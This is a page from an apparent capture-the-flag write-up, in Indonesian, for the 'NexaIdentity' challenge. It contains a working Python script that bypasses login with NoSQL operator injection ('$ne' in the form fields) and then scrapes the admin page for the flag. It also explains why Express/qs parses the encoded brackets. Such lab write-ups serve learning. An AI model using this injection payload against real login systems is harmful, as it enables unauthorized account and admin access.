

# NexaIdentity — Script minimal

[← Overview](11-nexaidentity.md) · [Index](index.md)

> **Langkah 6/9 — Script minimal.** Catatan: requests dengan dict {"email[$ne]": "x"} akan meng-encode bracket sebagai %5B%24ne%5D; Express/qs tetap mem-parse-nya menjadi operator.
>
> **Titik penting:** http://s1.nfx.my.id:41270"
>
> **Berikutnya:** [Flag](11-nexaidentity-07-flag.md)

## 3.4 Script minimal

```python
import requests

BASE = "http://s1.nfx.my.id:41270"
s = requests.Session()

r = s.post(BASE + "/login",
           data={"email[$ne]": "x", "password[$ne]": "x"},
           allow_redirects=False)
print("login:", r.status_code, r.headers.get("Location"))

who = s.get(BASE + "/dashboard").text
print("identity:", who.split('nav-user">')[1].split("<")[0])

admin = s.get(BASE + "/admin").text
import re
m = re.search(r"NFX\{[^}]*\}", admin)
print("FLAG:", m.group(0) if m else "not found")
```

Catatan: `requests` dengan dict `{"email[$ne]": "x"}` akan meng-encode bracket sebagai `%5B%24ne%5D`; Express/qs tetap mem-parse-nya menjadi operator.

### Evidence langkah ini



*Terminal evidence — `03-login-normal.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`03-login-normal.txt`](assets/nexaidentity/03-login-normal.txt)
